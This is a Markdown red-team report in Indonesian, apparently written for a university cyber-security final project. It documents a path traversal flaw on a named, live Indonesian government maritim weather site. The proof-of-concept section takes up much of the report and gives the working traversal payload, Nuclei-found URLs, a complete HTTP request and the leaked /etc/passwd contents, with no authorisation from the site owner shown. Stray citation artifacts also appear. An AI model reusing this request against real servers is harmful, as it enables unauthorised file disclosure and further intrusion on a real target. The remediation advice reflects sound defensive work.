


# Local File Inclusion (LFI) / Path Traversal — BMKG Maritim Tanjung Perak

**Author:** Arya Kusuma  
**Category:** Red Team  
**Date:** 9 September 2026  
**Target:** `https://maritim-tanjungperak.bmkg.go.id/`  
**Severity:** High  
**Suggested CVSS 3.1:** 7.5

> Pengujian didokumentasikan sebatas Proof of Concept (PoC) untuk membuktikan dampak kerentanan tanpa melakukan perubahan atau tindakan destruktif pada sistem target.

---

## 1. Ringkasan

Pada pengujian terhadap aplikasi web BMKG Maritim Tanjung Perak ditemukan indikasi **Local File Inclusion (LFI) / Path Traversal** pada parameter `file`.

Validasi manual menunjukkan bahwa parameter tersebut dapat digunakan untuk melakukan traversal direktori dan membaca file sistem `/etc/passwd`. Bukti ini menunjukkan adanya **unauthorized local file read / information disclosure** pada server.

Temuan terdeteksi menggunakan Nuclei dan kemudian divalidasi secara manual menggunakan request HTTP.

---

## 2. Scope & Rules of Engagement

Pengujian mengikuti ketentuan Red Team pada repository Final Project Cyber Security GDG OC UNSRI. Repository tersebut mensyaratkan setiap peserta membuat folder sendiri di dalam `RedTeam`, menempatkan `README.md` di dalam folder tersebut, serta menyimpan seluruh screenshot, source code, script, dan resource pendukung lainnya di folder yang sama. citeturn697429view0

Pengujian dibatasi pada:

- Identifikasi dan validasi kerentanan.
- Eksploitasi aman sebatas PoC.
- Tidak melakukan defacement.
- Tidak melakukan data modification atau data wiping.
- Tidak melakukan DoS/DDoS.
- Tidak melakukan domain takeover/DNS hijacking.
- Tidak melakukan social engineering/phishing.

---

## 3. Vulnerability Information

| Field | Detail |
|---|---|
| Vulnerability | Local File Inclusion (LFI) / Path Traversal |
| Severity | High |
| CVSS 3.1 | 7.5 (suggested) |
| CWE | CWE-22 — Path Traversal |
| Target | `maritim-tanjungperak.bmkg.go.id` |
| Affected path | `/prakiraan/download.php/admin/index.php` |
| Parameter | `file` |
| Impact | Unauthorized reading of local files |
| Discovery | Nuclei + manual verification |

---

## 4. Reconnaissance & Discovery

### 4.1 Tool

Tool yang digunakan pada proses discovery:

- Nuclei `v3.11.1`
- Nuclei Templates `v10.4.8`

Berdasarkan hasil scan, Nuclei menjalankan **892 signed templates** dan menemukan **3 matches** pada target.

### 4.2 Nuclei Result

```text
[wordpress-wordfence-lfi] [http] [high]
https://maritim-tanjungperak.bmkg.go.id/prakiraan/download.php/wp-content/plugins/wordfence/lib/wordfenceClass.php?file&file=/.//...//...//..etc/passwd

[CVE-2018-18323] [http] [high]
https://maritim-tanjungperak.bmkg.go.id/prakiraan/download.php/admin/index.php?file&file=./.././.././.././.././.././.././.././.././.././.././../etc/passwd&module=file_editor

[CVE-2009-2015] [http] [high]
https://maritim-tanjungperak.bmkg.go.id/prakiraan/download.php/components/com_moofaq/includes/file_includer.php?file=./../../../../../../etc/passwd&gzip=0
```

### 4.3 Bukti Scan



*Gambar 1 — Hasil Nuclei menunjukkan tiga temuan terkait local file inclusion/path traversal.*

---

## 5. Manual Verification / Proof of Concept

### 5.1 Affected Endpoint

```text
https://maritim-tanjungperak.bmkg.go.id/prakiraan/download.php/admin/index.php
```

### 5.2 Vulnerable Parameter

Parameter yang diuji:

```text
file
```

### 5.3 Path Traversal Payload

PoC yang digunakan:

```text
file=./.././.././.././.././.././.././.././.././.././.././.././../etc/passwd
```

Payload tersebut menggunakan rangkaian `../` untuk keluar dari direktori aplikasi dan mencoba mengakses file lokal `/etc/passwd`.

### 5.4 HTTP Request

```http
GET /prakiraan/download.php/admin/index.php?file&file=./.././.././.././.././.././.././.././.././.././.././.././../etc/passwd&module=file_editor HTTP/1.1
Host: maritim-tanjungperak.bmkg.go.id
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Connection: close
```

### 5.5 Response

Server mengembalikan isi `/etc/passwd`. Contoh isi response yang terlihat:

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/var/sshd:/usr/sbin/nologin
vmhosting:x:1000:1000:vmhosting,,,:/home/vmhosting:/bin/bash
mysql:x:106:112:MySQL Server,,,:/home/network:/bin/false
wazuh:x:107:114:Wazuh Administrator:/var/sshd:/usr/sbin/nologin
```

### 5.6 Bukti Manual Verification



*Gambar 2 — Response halaman menunjukkan isi `/etc/passwd`, sehingga local file read berhasil tervalidasi.*

---

## 6. Impact

Kerentanan ini memungkinkan pihak yang tidak memiliki hak akses untuk membaca file lokal yang dapat dijangkau melalui mekanisme path traversal.

Dampak yang terbukti dari PoC:

1. **Information Disclosure** — informasi user/service sistem dapat terbaca.
2. **System Enumeration** — isi `/etc/passwd` dapat digunakan untuk memahami akun lokal pada server.
3. **Potential Further Disclosure** — apabila file lain yang sensitif juga dapat dijangkau oleh mekanisme yang sama, informasi konfigurasi aplikasi berpotensi ikut terekspos.

PoC yang dilakukan pada tahap ini dibatasi pada pembacaan `/etc/passwd` dan tidak dilanjutkan ke perubahan data, privilege escalation, atau tindakan destruktif.

---

## 7. Root Cause

Akar masalah yang terindikasi adalah parameter `file` menerima input path dari client tanpa validasi dan pembatasan direktori yang memadai.

Pola seperti:

```text
../
```

dapat digunakan untuk berpindah ke direktori di luar lokasi file yang seharusnya diakses aplikasi.

---

## 8. Remediation

Rekomendasi perbaikan:

| No. | Recommendation | Priority |
|---:|---|---|
| 1 | Gunakan whitelist file/direktori yang memang diperbolehkan untuk diakses | High |
| 2 | Normalisasi dan validasi path sebelum file dibuka, misalnya menggunakan `realpath()` dan memastikan hasilnya tetap berada di base directory yang ditentukan | High |
| 3 | Tolak input yang mengandung traversal seperti `../` setelah proses canonicalization | High |
| 4 | Hindari menerima path file mentah dari parameter request apabila tidak diperlukan | Medium |
| 5 | Tambahkan logging dan monitoring terhadap percobaan path traversal | Medium |
| 6 | Lakukan code review pada endpoint lain yang memiliki fungsi serupa | Medium |

---

## 9. Conclusion

Berdasarkan hasil scanning dan validasi manual, ditemukan indikasi **Local File Inclusion (LFI) / Path Traversal** pada:

```text
/prakiraan/download.php/admin/index.php
```

dengan parameter:

```text
file
```

PoC berhasil menunjukkan bahwa path traversal dapat digunakan untuk membaca file sistem `/etc/passwd`. Dengan demikian, temuan ini dikategorikan sebagai **High Severity** karena menyebabkan unauthorized local file read / information disclosure.

Pengujian dihentikan setelah memperoleh bukti yang cukup untuk memvalidasi dampak, sesuai prinsip safe exploitation pada metodologi Red Team repository Final Project. citeturn697429view0

---

## 10. References

- [CyberSecurity-FinalProject — DSC-UNSRI](https://github.com/DSC-UNSRI/CyberSecurity-FinalProject)
- [OWASP Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
- [NVD — CVE-2018-18323](https://nvd.nist.gov/vuln/detail/CVE-2018-18323)

---

## 11. Folder Structure

Struktur folder mengikuti mekanisme repository:

```text
CyberSecurity-FinalProject/
└── RedTeam/
    └── Arya-Kusuma/
        ├── README.md
        ├── poc-nuclei-scan.png
        ├── poc-lfi-response.png
        └── exploit-poc.txt
```

Repository memang mengharuskan `README.md` serta resource pendukung seperti screenshot/source code berada di folder peserta yang sama. citeturn211958view0
